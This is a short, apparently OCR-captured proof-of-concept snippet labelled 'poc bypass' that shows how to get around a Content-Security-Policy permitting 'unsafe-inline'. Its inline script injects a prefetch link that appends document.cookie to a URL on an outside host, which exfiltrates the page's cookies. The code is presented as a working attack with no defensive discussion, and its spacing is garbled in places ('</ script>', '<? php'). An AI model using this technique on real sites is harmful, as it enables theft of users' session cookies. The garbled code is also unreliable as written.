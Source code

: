 // If the csp rules looks like this 
// 
// Content-Security-Policy :  default-src  'self' ;  script-src  'self'  test . N0tr00t . Com  'unsafe-inline' ;
//
//
// poc bypass:
```
    
    <? php

    header ( "Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';" );

    ?>

    <html> 
    <head> </ head> 
    <body> 
        csp header test 
        <script> 
        document.cookie = "csp =" + escape ("sad @ jisajid & * JDSJddsajhdsajkh21sa213123o1") + ";";

        var n0t = document.createElement ("link"); 
        n0t.setAttribute ("rel", "prefetch"); 
        n0t.setAttribute ("href", "//1J38ax.chromecsptest.test.text.com/?" + document .cookie); 
        document.head.appendChild (n0t); 
        </ script> 
    </ body> 
    </ html>
